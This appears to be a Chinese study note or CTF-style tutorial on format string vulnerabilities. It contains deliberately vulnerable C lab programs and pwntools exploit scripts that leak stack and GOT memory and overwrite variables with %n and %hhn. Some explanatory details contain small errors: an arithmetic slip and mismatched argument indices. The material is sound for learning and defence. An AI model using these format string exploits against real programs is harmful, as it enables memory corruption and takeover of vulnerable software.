










# 常见的格式化字符串函数

输出：

| 函数                      | 基本介绍                               |
| ------------------------- | -------------------------------------- |
| printf                    | 输出到 stdout                          |
| fprintf                   | 输出到指定 FILE 流                     |
| vprintf                   | 根据参数列表格式化输出到 stdout        |
| vfprintf                  | 根据参数列表格式化输出到指定 FILE 流   |
| sprintf                   | 输出到字符串                           |
| snprintf                  | 输出指定字节数到字符串                 |
| vsprintf                  | 根据参数列表格式化输出到字符串         |
| vsnprintf                 | 根据参数列表格式化输出指定字节到字符串 |
| setproctitle              | 设置 argv                              |
| syslog                    | 输出日志                               |
| err, verr, warn, vwarn 等 | 。。。                                 |

输入是`scanf`。

# 漏洞原理

比如`printf("%s,%d,%4.2f","hello",4,3.14);`

栈上的情况应该是这样：



在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。
- 当前字符是 %， 继续读取下一个字符
  - 如果没有字符，报错
  - 如果下一个字符是 %, 输出 %
  - 否则根据相应的字符，获取相应的参数，对其进行解析并输出


所以就是根据堆栈，去找相应的参数进行解析。

如果是这样呢？`printf("%s");`



就会打印出第一个参数"%s"在栈中的下面的那个地址所指向的字符串。格式化字符串的漏洞原理就是这样。

# 利用

## 程序崩溃

输入若干`%s%s%s%s%s`，栈下面总会有个不合法的地址，导致程序的崩溃：

```shell
feng@ubuntu: ~/Desktop$ ./leakmemory
%s%s%s%s 
00000001.22222222.ffffffff.%s%s%s%s
Segmentation fault (core dumped)

```

## 泄露内存

- 泄露栈内存
  - 获取某个变量的值
  - 获取某个变量对应地址的内存
- 泄露任意地址内存
  - 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
  - 盲打，dump 整个程序，获取有用信息。


### 泄露栈变量数值

```shell
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

```shell
gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
```


需要注意一下获取函数的的第n+1个参数：`%n$x`。（`%n$p`）

把断点断到printf：`b printf`，输入`%5$x`。



可以看到栈上的内容目前是这样：

```
0x80484ce
0xffffcf80    1   %5$x
0xffffcf80    2   %5$x
0xc2          3
0xf7e9279b    4
'%5$x'        5
0xffffd000    6
```

我们想要获取得是函数的第6个参数，虽然是`printf("%5$x")`，只是一个参数，因此认为栈下面的依次是第二个、第三个参数，以此类推。所以第六个参数，根据栈来看，正好也就是`0xffffd000`

### 泄露栈变量对应字符串

`%s`。比如就输入`%s`，之所以会打印出`%s`，是因为`%s`参数对应的栈下面的参数正好也还是`%s`:




总结：

1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
3. 利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。


### 泄露任意地址内存

上面的方式都是基于栈的顺序来泄露内存，接下来就是泄露任意地址内存的姿势了。

可以通过这样的方式来确认位置：

```shell
feng@ubuntu: ~/Desktop$ ./leakmemory
AAAA%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p
AAAA0xffcee9500xc20xf7df879b0x414141410x702570250x702570250x702570250x70257025
```

可以发现通过`%p`来往栈的下面泄露内存的时候，AAAA出现在了函数的第5个参数的位置，所以通过`%4$s`就可以取得AAAA对应的值作为地址得值。

编写exp：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./leakmemory')
elf = ELF('./leakmemory')
__isoc99_scanf_got = elf.got['__isoc99_scanf']
payload = flat([__isoc99_scanf_got,'%4$s'])
p.sendline(payload)
p.recvuntil('%4$s\n')
addr = hex(u32(p.recv()[4:8]))
print(addr)

```




## 覆盖内存

泄露内存利用的是`%n`。

```
%n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。
```


```c
/*overwrite.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

### 覆盖栈内存

首先想办法让第一个if成立，也就是我们要覆盖变量c的值。

总的思路如下：

```
...[overwrite addr]....%[overwrite offset]$n
```

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

覆盖的地址，也就是c的地址，已经printf打印出来了。接下来就是找相对偏移，和之前的泄露一样：

```shell
feng@ubuntu: ~/Desktop$ ./overwrite
0xffc1703c
aaaa%p-%p-%p-%p-%p-%p-%p-%p
aaaa0xffc16fd8-0xc2-0xf7e1579b-0xffc16ffe-0xffc170fc-0x61616161-0x252d7025-0x70252d70feng@ubuntu: ~/Desktop$ 
```

可以发现是第6个参数（printf函数的第七个参数）。所以就是`%6$n`。

n的作用上面提到了，就是不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。


因此也就是把已经输出的字符个数写入printf函数的第n+1个参数所指的变量。

地址是4字节，想让c是16，因此还需要输出12个字符，构造一下exp：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
c_addr = int(p.recvuntil("\n",drop=True),16)

payload = flat([c_addr,'a'*12,'%6$n'])
p.sendline(payload)
print(p.recv())

```



看到`modified c`，说明c的内容覆盖成功了。

### 覆盖任意地址内存

#### 覆盖小数字

既然要覆盖的地址是也是我们输入的字符串，所以地址是可以任意指定的，关键的问题就是值的问题。

当覆盖的值比较小的时候，比如2，如果还是像之前那样的话，`%n$n`前面已经至少有4个字节了，所以覆盖的值最少是4，导致了小数字没法覆盖。

因此需要修改地址值在payload中的位置，往后面放就行，看解法就懂了：

```shell
feng@ubuntu: ~/Desktop$ ./overwrite 
0xff9b1d1c
bbccccbbaaaa%p-%p-%p-%p-%p-%p-%p-%p
bbccccbbaaaa0xff9b1cb8-0xc2-0xf7daa79b-0xff9b1cde-0xff9b1ddc-0x63636262-0x62626363-0x61616161feng@ubuntu: ~/Desktop$ 

```

bb代表前面有2个字符，cccc代表`%n$n`，后面再补2个b是为了凑齐4个字节，aaaa即我们放入的地址。看一下会发现aaaa在第8个参数，所以n取8。

至于a和b的地址，因为它们是已初始化的全局变量，放入的是.data段，IDA看一下地址就行了：



EXP：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
a_addr = 0x0804A024

payload = flat(['aa'+'%8$n','aa',a_addr])
p.sendline(payload)
print(p.recv())

```



#### 覆盖大数字

主要就是利用`%nx`和`%hhn`。

```
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```

说白了就是hh写入的是一个字节，h写入2个字节。

让b是0x12345678的话，覆盖后的内存是这样：

```
78
56
34
12
地址上低下高
```

IDA查看b的地址为`0x0804A028`。所以分别要写到`0804A028,0804A029,0804A02a,0804A02b`中。

写EXP：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
b_addr = 0x0804A028
payload = flat([b_addr,b_addr+1,b_addr+2,b_addr+3,'%104x','%6$hhn','%222x','%7$hhn','%222x','%8$hhn','%222x','%9$hhn'])
p.sendline(payload)
print(p.recv())

```

说一下什么意思吧。首先前面把要写的4个地址的值给填上去，之后的从`%6$hhn`到`%9$hhn`用来依次向这4个地址中覆盖东西。

首先是`%104x`，是取某个的十六进制然后填充长度为104，这样的话算上前面4个地址，是4*8+104=120的长度，是0x78，这样再`%7$hhn`的话，就是向`b_addr`中写入一个字节，值是0x78。

接下来得写0x156了，然后取一个字节，是0x56，这样就写进去了。

计算如下：



这样需要补充的长度都是222。




也可以用pwntools的函数`fmtstr_payload`来简化：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
b_addr = 0x0804A028
payload = fmtstr_payload(6,{b_addr:0x12345678})
p.sendline(payload)

```


# 总结

格式化字符串告一段落，基本的格式化字符串漏洞算是清楚了，ctfwiki的例题没有做，等之后再来补了，暂时先以广度为主。